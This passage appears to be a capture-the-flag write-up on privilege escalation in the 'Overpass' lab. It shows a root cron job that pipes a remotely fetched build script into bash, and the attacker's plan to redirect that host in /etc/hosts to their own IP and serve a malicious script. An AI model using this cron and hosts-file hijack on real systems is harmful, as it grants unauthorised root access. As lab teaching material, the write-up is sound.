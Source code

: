 
# **Privilege Escalation**

On james home directory, there is a note that says that there is an automated build script, and we know that we can find information about those in the **/etc/crontab** file.

```terminal
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

We find there is an automated command running as root, the command uses `curl` to call for a bash script, and passes the content of that script to `bash`, so whatever commands on that file, they will get executed on the machine and by **root**.

What we can do is:
 - change the ip address of overpass to our ip address in **/etc/hosts** file.
 - Create the same 2 directories and put **buildscript.sh** in them.
 - Write the desired script you want to run in the **buildscrip.sh** file.
 - Start a HTTP server using python3 on our machine.

```terminal
james@overpass-prod:~$ vim /etc/hosts
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.11.31.131 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
